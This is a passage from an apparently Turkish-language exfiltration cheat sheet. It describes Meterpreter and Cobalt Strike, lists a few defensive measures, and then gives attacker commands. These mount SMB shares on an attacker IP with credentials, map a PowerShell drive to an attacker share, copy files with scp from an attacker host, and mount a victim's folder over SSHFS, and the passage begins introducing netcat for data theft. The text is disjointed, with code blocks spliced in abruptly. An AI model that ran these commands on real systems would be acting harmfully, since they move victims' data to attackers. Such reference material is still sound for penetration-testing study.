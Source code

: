 Meterpreter, bir saldırganın hedef sistemdeki verilere erişim sağlamasını ve bu verileri dışarıya aktarmasını sağlayan bir araçtır. Meterpreter, birçok veri sızdırma yöntemini destekler ve saldırganlara esnek bir veri sızdırma yeteneği sunar.

### Cobalt Strike

Cobalt Strike, bir saldırganın hedef sistemdeki verilere erişim sağlamasını ve bu verileri dışarıya aktarmasını sağlayan bir saldırı simülasyon aracıdır. Cobalt Strike, çeşitli veri sızdırma yöntemlerini destekler ve saldırganlara kapsamlı bir veri sızdırma yeteneği sunar.

## Veri Sızdırma Önlemleri

Veri sızdırma saldırılarını önlemek için aşağıdaki önlemleri almak önemlidir:

- Güçlü şifreler kullanın ve düzenli olarak değiştirin.
- Güvenlik duvarları ve güvenlik yazılımları kullanarak ağ trafiğini izleyin ve filtreleyin.
- Hassas verileri şifreleyin ve erişimi sınırlayın.
- Güvenlik açıklarını düzeltmek için düzenli olarak güncellemeleri uygulayın.
- Personelinize güvenlik eğitimi verin ve bilinçlendirme programları düzenleyin.
- Veri sızdırma saldırılarını izlemek ve tespit etmek için güvenlik olaylarına yanıt (SIEM) sistemleri kullanın.
```bash
CMD-Wind> \\10.10.14.14\path\to\exe
CMD-Wind> net use z: \\10.10.14.14\test /user:test test #For SMB using credentials

WindPS-1> New-PSDrive -Name "new_disk" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali"
WindPS-2> cd new_disk:
```
## SCP

Saldırganın SSHd çalıştırması gerekmektedir.
```bash
scp <username>@<Attacker_IP>:<directory>/<filename>
```
## SSHFS

Eğer kurbanın SSH'si varsa, saldırgan kurbandan saldırganın bir dizinini bağlayabilir.
```bash
sudo apt-get install sshfs
sudo mkdir /mnt/sshfs
sudo sshfs -o allow_other,default_permissions <Target username>@<Target IP address>:<Full path to folder>/ /mnt/sshfs/
```
## NC

NC (Netcat) bir ağ aracıdır ve birçok farklı amaç için kullanılabilir. Exfiltration (veri sızdırma) için kullanıldığında, hedef sistemden veri çalmak veya hedef sistemdeki veriyi başka bir sistemde depolamak için kullanılabilir.

NC, bir sunucu ve bir istemci modunda çalışabilir. Sunucu modunda, NC bir portu dinler ve gelen bağlantıları kabul eder. İstemci modunda ise, NC belirli bir IP adresi ve port numarasına bağlanır.
